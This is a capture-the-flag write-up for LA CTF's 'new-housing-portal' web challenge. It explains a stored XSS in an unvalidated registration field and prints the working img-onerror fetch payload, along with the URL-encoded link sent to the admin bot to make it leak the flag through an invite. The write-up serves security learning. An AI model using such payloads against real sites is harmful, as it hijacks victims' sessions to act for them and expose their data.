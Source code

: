 ## Description:

**After that old portal, we decided to make a new one that is ultra secure and not based off any real housing sites. Can you make Samy tell you his deepest darkest secret?
Hint - You can send a link that the admin bot will visit as samy.
Hint - Come watch the real Samy's talk if you are stuck!
Site - new-housing-portal.chall.lac.tf
Admin Bot - https://admin-bot.lac.tf/new-housing-portal**

**There was a source code provided with the chall**

## Walkthrough:
**First, let's access the main page of the website.**

![image](https://github.com/qlashx/ctf_writeups/assets/106611511/562b27fc-267a-4bb0-9360-dd340f64812e)

**So, there are a lot of functions here. Let's interact more with the web app.**

**After some time spent interacting with the web app, I noticed two other functions: "find" and "invite." Let's take a look at the source code to gain a deeper understanding.**

**Initially, the user data was stored as a map.**

![image](https://github.com/qlashx/ctf_writeups/assets/106611511/a930a03e-e701-4879-ad67-7d7abe5d89bd)

**There is a user called Samy who has a flag in his data. How can we retrieve the flag?**

![image](https://github.com/qlashx/ctf_writeups/assets/106611511/f6fbd19e-4251-4e6a-837d-ed8c268c2c12)

**There is a function called /finder that takes the input and only trims it. It then searches the map for the name and sends an invite with the sender's information, along with the deepestDarkestSecret -> flag in Samy's data.**

![image](https://github.com/qlashx/ctf_writeups/assets/106611511/cf0267c4-8bd9-45aa-942a-9672f8b30166)

**so we need smay to send an invite to us to get the flag but how**

**There is a route called /register that takes the user input and puts it in the map without any validation or sanitization.**

![image](https://github.com/qlashx/ctf_writeups/assets/106611511/bd07474a-3c8b-4ac0-8c10-07c14b1d4a

**We could exploit the lack of validation and sanitization in the /register route by registering with an input that contains JavaScript code to send an invite to ahmed2 (my username). Then, we could use the /finder route to search for the JavaScript code and send the link to Samy. When Samy clicks on the link, the JavaScript code would execute in his browser, inviting you and potentially allowing you to retrieve the flag.**

**And this was right i used this script 
```<img src="x" onerror='fetch("https://new-housing-portal.chall.lac.tf/finder", {method: "POST", mode: "no-cors", headers: {"Content-Type": "application/x-www-form-urlencoded"}, body:"username=ahmed2"});'>```
as name and send the link like this 
https://new-housing-portal.chall.lac.tf/finder/?q=%3Cimg%20src%3D%22x%22%20onerror%3D%27fetch(%22https%3A%2F%2Fnew-housing-portal.chall.lac.tf%2Ffinder%22%2C%20%7Bmethod%3A%20%22POST%22%2C%20mode%3A%20%22no-cors%22%2C%20headers%3A%20%7B%22Content-Type%22%3A%20%22application%2Fx-www-form-urlencoded%22%7D%2C%20body%3A%22username%3Dahmed2%22%7D)%3B%27%3E to samy and i got the invite :D and the flag**

![image](https://github.com/qlashx/ctf_writeups/assets/106611511/df1008d4-4a3c-4c7c-8933-378adc157305)

